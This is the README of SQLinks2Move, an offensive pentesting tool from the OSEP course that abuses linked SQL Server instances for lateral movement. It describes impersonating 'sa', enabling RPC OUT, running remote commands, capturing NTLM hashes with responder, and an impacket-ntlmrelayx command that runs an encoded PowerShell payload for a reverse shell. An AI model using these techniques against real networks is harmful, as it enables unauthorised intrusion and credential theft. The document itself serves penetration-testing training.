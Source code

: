# SQLinks2Move

## Presentation

SQLinks2Move is a tool created during OSEP PEN-300 course. This tool is used to link SQL servers and perform Lateral Movement.

## What it does exactly?

It depends, which value you entered into it. Basically, once you specify all the values it will do the following :

1. It authenticate on your actual given SQL Server name, connect to it and to the database.
2. It will login as the current user.
3. It will mapp the user.
4. It will check if your current user is a member of public role. Then check if its a member of sysadmin role.
5. It will link the databases if possible.
6. It will check if there is an impersonable login by two differents way.
7. If specified, it will try to perform NTLM relay hash, you should setup responder or impacket-ntlmrelayx before using it.
8. It will check if RPC OUT is enabled.
9. It will try to enable RPC OUT if disabled.
10. It will impersonate the given username (if there is an impersonable user)
11. It will execute the given command on the specified remote linked SQL server.

To a full understanding, refere to the code.

An analyse of the code will be created to get a better documentation.

## Usage

1. First load the SQLinks2Move folder inside Visual Studio and compile the code as Release.

2. Then upload SQLinks2Move.exe to the target SQL Server that you already own.

3. Execute SQLinks2Move.exe 

4. Specify your values when prompted.

## Demo - Basic Usage

For legal reason, I have hidden sensitive informations on the pictures. So i will give random informations to lead you througt this demo.

### Step 1 - Basic usage.

First running whoami, we see that we are ```PANDA\sqlsvc```. Running hostname told us that we are on the domaine machine name ```KOALA01```.

Running SQLinks2Move binary, specifying servername ```KOALA01``` database ```master``` and leaving blank all others value except for RPC, where we choose "N" on both, return this result.

![step 1](https://user-images.githubusercontent.com/22322762/120856435-2b6d4800-c580-11eb-8599-5f8dc86e6826.png)

We can see that the authentication is a success, we are mapped as ```dbo``` we are member of public and sysadmin role. We linked two SQL Server which are ```KOALA01\SQLEXPRESS``` and ```PIZZA03```. The login ```sa``` can be impersonated.

### Step 2 - Command Execution on PIZZA03

Re-running SQLinks2Move.exe but this time specifying the user to impersonate ```sa```, executing the command ```hostname``` against the server ```PIZZA03```, checking if RPC is enabled, and allow to enable it.

![step 2](https://user-images.githubusercontent.com/22322762/120855557-f14f7680-c57e-11eb-9d30-ab29be314e08.png)

We see that we impersonated ```sa``` with sucess, that RPC OUT was disabled (Because of "False" answer), we enabled it, executed ```hostname``` as ```sa``` against ```PIZZA03``` return the result of command ```PIZZA03```

We can do command execution, so for example, using web_delivery metasploit module using powershell payload, we should be able to retrieve a shell on ```PIZZA03```

## Demo - NTLM Hashes.

By setting up responder with ```sudo responder -I [interface]```, and specifying your LHOST when prompted by SQLinks2Move.exe, we can retreive NTLM hash and attempt to crack it.

![step 3](https://user-images.githubusercontent.com/22322762/120856039-83f01580-c57f-11eb-97ea-9fff9da2ddb4.png)

Alternatively we can setup impacket-ntlmrelayx and execute a command to get a reverse shell on ```PIZZA03``` if the target is vulnerable.

For example using :

```bash
sudo impacket-ntlmrelayx --no-http-server -smb2support -t [PIZZA03_ip_address] -c 'powershell -enc <base64>'
```

TODO : Screenshot of impacket-ntlmrelayx
